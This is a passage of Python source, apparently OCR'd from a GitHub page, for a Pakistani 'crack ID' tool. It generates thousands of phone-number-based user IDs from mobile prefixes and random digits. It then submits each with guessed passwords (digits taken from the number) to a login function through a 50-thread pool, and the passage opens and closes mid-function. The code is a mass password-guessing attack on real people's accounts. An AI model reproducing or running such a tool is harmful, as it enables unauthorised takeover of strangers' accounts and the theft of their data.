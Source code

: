             uid = code+love
            pwx = [code+love[5:]]
            manshera.submit(m,uid,pwx,tl)
    sh = input(f'\n\n    {M}Go TO MAIN MENU [ Y/N] :{H}  ')
    if sh =='y':
        check_update()
    elif sh =='Y':
        check_update()
    else:
        check_update()
    

    
def sh7():
    user=[]
    
    os.getuid
    os.geteuid
    clear()
    banner()
    print(f"             {H} SIM {K}CODE{P}  ");time.sleep(0.05)
    print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    print(f"  {K}PAK : \033[1;97m0349 , 0306 , 0302 , 0300 , 0315") 
    print("\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
    code = input(f'{M}    INPUT CODE {P}:{H} ')
    os.system("clear")
    banner()
    print(f"")
    print(f'    {P}[{H}√{P}] EXAMPLE    : {K}5000/10000/20000')
    print(f"")
    limit = int(input(f'    %s[%s?%s] CRACK ID LIMIT : %s'%(N,K,N,H)))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=50) as manshera:    
        clear()
        banner()
        tl = str(len(user))
        
         
        print(f"\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        print(f"{P}[{H}•{P}]{WHITE}WElCOME  MY TOOLS     : {GREEN}"+name)
        print(f"{P}[{H}•{P}]{WHITE}TOTAL IDZ             : {GREEN}"+tl)
        print(f"{P}[{H}•{P}]{WHITE}COUNTRY YOU CHOOSE    : {GREEN}PAKISTAN ")
        print(f"{P}[{H}•{P}]{WHITE}NUMBER YOU PUT        : {GREEN}"+code)
        print(f"\033[38;5;46m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[1;32m•\033[1;35m•\033[1;34m•\033[1;97m•\033[1;33m•\033[38;5;196m•\033[1;35m•\033[1;34m•\033[1;33m•\033[1;32m•\033[1;97m•\033[38;5;196m•\033[38;5;46m•\033[38;5;196m•\033[1;32m•\033[1;97m•\033[1;35m•\033[1;34m•\033[1;33m•\033[38;5;46m•\033[1;97m•")
        for love in user:
            uid = code+love
            pwx = [love]         
            manshera.submit(m,uid,pwx,tl)